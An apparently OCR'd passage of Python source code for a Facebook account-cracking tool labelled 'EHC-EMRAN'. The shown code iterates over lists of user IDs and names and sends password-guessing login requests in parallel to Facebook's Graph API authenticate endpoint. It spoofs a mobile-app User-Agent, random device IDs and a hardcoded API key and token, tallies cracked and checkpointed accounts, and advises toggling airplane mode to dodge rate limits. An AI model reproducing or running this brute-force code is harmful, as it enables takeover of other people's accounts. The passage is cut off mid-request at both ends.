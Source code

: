             if sl =='':
                print(f'{G1}[{A}={G5}]{G5} PUT LIMIT BETWEEN 1 TO 30')
            elif sl > 20:
                print(f'{G1}[{A}={G1}]{G1} PASSWORD LIMIT SHOULD NOT BE GREATER THAN 30')
            else:
                for sr in range(sl):
                    pw.append(input(f'{G1}[{A}={G1}]{G1} PASSWORD NO {G1}[{A}{sr+1}{G1}] {A}:{G1} '))
            clear()
            print(f'{G1}[{A}={G1}]{G1} TOTAL FILE UID {A}:{G1} %s ' % len(self.id))
            print(f'{G1}[{A}={G2}]{G2} PASSWORD LIMIT {A}:{G1} {sl} ')
            print(f'{G1}[{A}={G3}]{G3} TURN {G3}[{A}ON{A}/{A}OFF{G3}]{G3} AIRPLANE MODE EVERY {A}3{G3} MIN')
            linex()
            with Habib(max_workers=30) as swagworld:
                for zsb in self.id:
                   try:
                       uid, name = zsb.split('|')
                       sz = name.split(' ')
                       if len(sz) == 3 or len(sz) == 4 or len(sz) == 5 or len(sz) == 8:
                           pwx =  pw
                       else:
                            pwx =  pw
                            if 'methodA' in methods:
                                swagworld.submit(self.methodA, uid, name, pwx)
                            elif 'methodB' in methods:
                                swagworld.submit(self.methodB, uid, name, pwx)
                   except:pass
            result(oks,cps)
#__________________[ RANDOM METHOD ]__________________#
def randm(ids,psd):
    global loop,ok,cp
    sys.stdout.write(f"\r{G1}[{A}EHC-EMRAN{G1}]{A}-{G1}[{A}{loop}{G1}]{A}-{G1}[{A}OK{G1}/{A}CP{G1}]{A}-{G1}[{A}{len(ok)}{G1}/{A}{len(cp)}{G1}] ")
    sys.stdout.flush()
    try:
        for pas in psd:
            data={'adid':str(uuid.uuid4()),
            'format':'json',
            'device_id':str(uuid.uuid4()),
            'email':ids,
            'password':pas,
            'generate_analytics_claims':'1',
            'community_id':'',
            'cpl':'true','try_num':'1',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type':'password',
            'source':'login',
            'error_detail_type':'button_with_disabled',
            'enroll_misauth':'false',
            'generate_session_cookies':'1',
            'generate_machine_id':'1',
            'currently_logged_in_userid':'0',
            'locale':'en_US',
            'client_country_code':'US',
            'fb_api_req_friendly_name':'authenticate',
            'api_key':'62f8ce9f74b12f84c123cc23437a4a32',
            'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
            head={'User-Agent': '[FBAN/FB4A;FBAV/305.1.0.40.120;FBBV/272401209;FBDM/{density=2.0,width=720,height=1456};FBLC/it_IT;FBRV/273474118;FBCR/I TIM;FBMF/OPPO;FBBD/OPPO;FBPN/com.facebook.katana;FBDV/CPH1931;FBSV/10;FBBK/1;FBOP/1;FBCA/arm64-v8a:;]',
            'Accept-Encoding':'gzip, deflate',
            'Connection':'close',
            'Content-Type':'application/x-www-form-urlencoded',
            'Host':'graph.facebook.com',
            'X-FB-Net-HNI':str(random.randint(2e4, 4e4)),